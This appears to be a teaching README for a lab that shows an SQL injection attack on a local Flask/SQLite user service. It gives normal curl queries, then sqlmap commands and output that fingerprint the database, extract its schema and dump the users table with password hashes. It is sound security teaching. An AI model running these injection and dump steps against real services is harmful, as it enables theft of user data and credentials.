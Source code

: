 # Example: User Service - SQL Injection Attack
 
In this example, we can see how a simple user service can be implemented 
using Flask and SQLite.

Also, we will demonstrate an SQL injection attack on this service.

## Start the Service 

We start the web service from the command line:
```
$ python3 user_service.py
```

## Find a particular User

We can query the service for a particular user:

```bash
$ curl -i http://localhost:8080/users/homer

HTTP/1.1 200 OK
Server: Werkzeug/3.0.4 Python/3.11.2
Date: Wed, 08 Jan 2025 19:52:26 GMT
Content-Type: application/json
Content-Length: 81
Connection: close

{
  "email": "homer.simpson@springfield.com",
  "id": 1,
  "username": "homer"
}
```

Here we get the username, email, and id of the user `homer`.

We can also query for a user that does not exist:

```bash
$ curl -i http://localhost:8080/users/moe

HTTP/1.1 404 NOT FOUND
Server: Werkzeug/3.0.4 Python/3.11.2
Date: Wed, 08 Jan 2025 19:54:05 GMT
Content-Type: application/json
Content-Length: 32
Connection: close

{
  "error": "User not found"
}
```


## Attack the Service with SQLMap

We can use `sqlmap` to find out, if the service is vulnerable to SQL injection.

_Example:_ Fingerpring the database

```bash
$ sqlmap -u "http://localhost:8080/users/homer*" --technique=BT

sqlmap identified the following injection point(s) with a total of 39 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://localhost:8080/users/homer' AND 5966=5966 AND 'McxN'='McxN
---
[20:44:47] [INFO] testing SQLite
[20:44:47] [INFO] confirming SQLite
[20:44:47] [INFO] actively fingerprinting SQLite
[20:44:47] [INFO] the back-end DBMS is SQLite
```

_Example:_ Extract the database schema
```bash
$ sqlmap -u "http://localhost:8080/users/homer*" --technique=BT --schema

[20:47:56] [INFO] retrieved: 2
[20:47:56] [INFO] retrieved: users
[20:47:56] [INFO] retrieved: sqlite_sequence
[20:47:56] [INFO] fetched tables: 'SQLite_masterdb.users', 'SQLite_masterdb.sqlite_sequence'
[20:47:56] [INFO] retrieved: CREATE TABLE "users" (  "id" INTEGER,  "username" TEXT NOT NULL,  "email" TEXT NOT NULL,  "password" TEXT NOT NULL,  PRIMARY KEY("id" AUTOINCREMENT) )
[20:47:59] [INFO] retrieved: CREATE TABLE sqlite_sequence(name,seq)

```

_Example:_ Extract the database content
```bash
$ sqlmap -u "http://localhost:8080/users/homer*" --technique=BT --dump

Table: users
[2 entries]
+----+-------------------------------+------------------------------------------------------------------+----------+
| id | email                         | password                                                         | username |
+----+-------------------------------+------------------------------------------------------------------+----------+
| 1  | homer.simpson@springfield.com | 2aaab795b3836904f82efc6ca2285d927aed75206214e1da383418eb90c9052f | homer    |
| 2  | marge.simpson@springfield.com | b4b811fa40505329ae871e52f03527c3720c9af7fb8607819658535c5484c41e | marge    |
+----+-------------------------------+------------------------------------------------------------------+----------+
```

*Egon Teiniker, 2017-2025, GPL v3.0*
 